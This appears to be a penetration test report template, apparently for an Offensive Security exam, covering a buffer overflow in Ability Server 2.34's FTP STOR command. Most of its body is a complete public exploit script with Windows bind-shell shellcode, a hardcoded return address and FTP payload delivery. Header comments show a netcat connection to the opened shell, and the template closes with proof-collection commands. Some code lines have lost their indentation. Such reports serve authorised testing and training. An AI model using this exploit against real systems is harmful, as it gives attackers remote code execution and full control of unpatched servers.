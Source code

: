 
# System: 192.168.x.x - Hostname

Offensive Security provided an application for black box review.  The application was running on a production server 192.168.x.x and a test system.  The test system was used to determine if buffer overflow existed in the application code.

The application was running on a test proof of concept (PoC) and production server as indicated in the scope below.  The test system was used to determine if a buffer overflow existed in the application code prior to attempting any direct exploitation of the production server.

### Scope

The IP address for the target(s) were provided by the client as documented here.  All buffer overflow penetration testing will operate only on the following system scope.

Server IP Address | Ports Open | Service | Application
----|----|----|----
192.168.x.y (Test) | **TCP**: 1337 | TBD | TBD.exe
192.168.x.z (Production) | **TCP**: 1337 | TBD | TBD.exe

### Vulnerability Exploited: buffer overflow
#### Severity: Critical
#### Vulnerability Explanation
Ability Server 2.34 is subject to a buffer overflow vulnerability in STOR field. Attackers can use this vulnerability to cause arbitrary remote code execution and take completely control over the system.

#### Vulnerability Fix
The publishers of the Ability Server have issued a patch to fix this known issue. It can be found here: http://www.code-crafters.com/abilityserver/

#### Steps to reproduce the attack
The operating system was different from the known public exploit. A rewritten exploit was needed in order for successful code execution to occur. Once the exploit was rewritten, a targeted attack was performed on the system which gave John full administrative access over the system.


#### Proof of Concept Code
Modifications to the existing exploit are at lines.
- X - explanation of modification
- Y - explanation of modification
- Z - explanation of modification

##### Full Buffer Overflow Code
```Python
###################################
# Ability Server 2.34 FTP STOR Buffer Overflow   
# Advanced, secure and easy to use FTP Server. 
# 21 Oct 2004 - muts                                      
###################################
# D:\BO>ability-2.34-ftp-stor.py                       
###################################
# D:\data\tools>nc -v 127.0.0.1 4444               
# localhost [127.0.0.1] 4444 (?) open               
# Microsoft Windows XP [Version 5.1.2600]        
# (C) Copyright 1985-2001 Microsoft Corp.        
# D:\Program Files\abilitywebserver>                
###################################

import ftplib
from ftplib import FTP
import struct
print "\n\n################################"
print "\nAbility Server 2.34 FTP STOR buffer Overflow"
print "\nFor Educational Purposes Only!\n" 
print "###################################"

# Shellcode taken from Sergio Alvarez's "Win32 Stack Buffer Overflow Tutorial"

sc = "\xd9\xee\xd9\x74\x24\xf4\x5b\x31\xc9\xb1\x5e\x81\x73\x17\xe0\x66"
sc += "\x1c\xc2\x83\xeb\xfc\xe2\xf4\x1c\x8e\x4a\xc2\xe0\x66\x4f\x97\xb6"
sc += "\x1a\x38\xd6\x95\x87\x97\x98\xc4\x67\xf7\xa4\x6b\x6a\x57\x49\xba"
sc += "\x7a\x1d\x29\x6b\x62\x97\xc3\x08\x8d\x1e\xf3\x20\x39\x42\x9f\xbb"
sc += "\xa4\x14\xc2\xbe\x0c\x2c\x9b\x84\xed\x05\x49\xbb\x6a\x97\x99\xfc"
sc += "\xed\x07\x49\xbb\x6e\x4f\xaa\x6e\x28\x12\x2e\x1f\xb0\x95\x05\x61"
sc += "\x8a\x1c\xc3\xe0\x66\x4b\x94\xb3\xef\xf9\x2a\xc7\x66\x1c\xc2\x70"
sc += "\x67\x1c\xc2\x56\x7f\x04\x25\x44\x7f\x6c\x2b\x05\x2f\x9a\x8b\x44"
sc += "\x7c\x6c\x05\x44\xcb\x32\x2b\x39\x6f\xe9\x6f\x2b\x8b\xe0\xf9\xb7"
sc += "\x35\x2e\x9d\xd3\x54\x1c\x99\x6d\x2d\x3c\x93\x1f\xb1\x95\x1d\x69"
sc += "\xa5\x91\xb7\xf4\x0c\x1b\x9b\xb1\x35\xe3\xf6\x6f\x99\x49\xc6\xb9"
sc += "\xef\x18\x4c\x02\x94\x37\xe5\xb4\x99\x2b\x3d\xb5\x56\x2d\x02\xb0"
sc += "\x36\x4c\x92\xa0\x36\x5c\x92\x1f\x33\x30\x4b\x27\x57\xc7\x91\xb3"
sc += "\x0e\x1e\xc2\xf1\x3a\x95\x22\x8a\x76\x4c\x95\x1f\x33\x38\x91\xb7"
sc += "\x99\x49\xea\xb3\x32\x4b\x3d\xb5\x46\x95\x05\x88\x25\x51\x86\xe0"
sc += "\xef\xff\x45\x1a\x57\xdc\x4f\x9c\x42\xb0\xa8\xf5\x3f\xef\x69\x67"
sc += "\x9c\x9f\x2e\xb4\xa0\x58\xe6\xf0\x22\x7a\x05\xa4\x42\x20\xc3\xe1"
sc += "\xef\x60\xe6\xa8\xef\x60\xe6\xac\xef\x60\xe6\xb0\xeb\x58\xe6\xf0"
sc += "\x32\x4c\x93\xb1\x37\x5d\x93\xa9\x37\x4d\x91\xb1\x99\x69\xc2\x88"
sc += "\x14\xe2\x71\xf6\x99\x49\xc6\x1f\xb6\x95\x24\x1f\x13\x1c\xaa\x4d"
sc += "\xbf\x19\x0c\x1f\x33\x18\x4b\x23\x0c\xe3\x3d\xd6\x99\xcf\x3d\x95"
sc += "\x66\x74\x32\x6a\x62\x43\x3d\xb5\x62\x2d\x19\xb3\x99\xcc\xc2"
# Change RET address if need be.
buffer = '\x41'*966+struct.pack('<L', 0x7C2FA0F7)+'\x42'*32+sc # RET Windows 2000 Server SP4
#buffer = '\x41'*970+struct.pack('<L', 0x7D17D737)+'\x42'*32+sc # RET Windows XP SP2
try:
# Edit the IP, Username and Password.
ftp = FTP('127.0.0.1') 
ftp.login('ftp','ftp')
print "\nEvil Buffer sent..."
print "\nTry connecting with netcat to port 4444 on the remote machine."
except:
print "\nCould not Connect to FTP Server."
try:
ftp.transfercmd("STOR " + buffer) 
except:
print "\nDone."
```


### Proof
**Linux**
```Bash
cat /root/proof.txt
ip addr show

# Check for local.txt
find / -type f -name local.txt
cat local.txt
```

---

**Windows**
```Powershell
type "c:\Documents and Settings\Administrator\Desktop\proof.txt"
ipconfig

REM Check for local.txt
cd \
dir /s local.txt
type local.txt
```

**Screenshot**

Screenshot must show proof.txt contents with `cat` or `type` command and output from `ipconfig` or `ip`.  Additionally, search the system for local.txt to cover all bases.  

![Alt text](images/placeholder-image-300x225.png "title"){ width=50%}

\pagebreak

